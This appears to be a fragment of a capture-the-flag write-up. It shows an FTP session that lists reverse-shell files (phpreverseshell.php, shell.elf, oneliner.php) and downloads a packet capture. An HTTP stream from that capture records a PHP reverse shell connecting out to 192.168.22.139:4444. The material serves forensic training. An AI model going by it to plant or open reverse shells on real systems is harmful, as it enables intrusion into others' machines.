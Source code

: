 ```
ftp> pwd
Remote directory: /
ftp> ls
229 Entering Extended Passive Mode (|||54443|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Aug 03 08:27 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> pwd
Remote directory: /ftp
ftp> ls
229 Entering Extended Passive Mode (|||38429|)
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118            87 Aug 03 07:56 oneliner.php
-rwxrwxr-x    1 112      118          2983 Aug 03 07:22 phpreverseshell.php
-rwxrwxr-x    1 112      118           207 Aug 03 08:00 shell.elf
-rwxr-xr-x    1 33       33          31224 Aug 03 08:27 suspicious.pcapng
226 Directory send OK.
ftp> lpwd
Local directory: /root/Downloads
ftp> get suspicious.pcapng
local: suspicious.pcapng remote: suspicious.pcapng
229 Entering Extended Passive Mode (|||65472|)
150 Opening BINARY mode data connection for suspicious.pcapng (31224 bytes).
100% |****************************************************************************************************************| 31224      435.15 KiB/s    00:00 ETA
226 Transfer complete.
31224 bytes received in 00:00 (88.53 KiB/s)
```

分析suspicious.pcapng的内容，Follow HTTP Stream。

tcp.stream eq 2

```
HTTP/1.1 200 OK
Date: Fri, 02 Oct 2020 17:39:24 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 155
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

WARNING: Failed to daemonise.  This is quite common and not fatal.
Successfully opened reverse shell to 192.168.22.139:4444
ERROR: Shell connection terminated
 
GET /favicon.ico HTTP/1.1
Host: 192.168.33.10
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: keep-alive

HTTP/1.1 404 Not Found
Date: Fri, 02 Oct 2020 17:40:16 GMT
Server: Apache/2.4.18 (Ubuntu)
```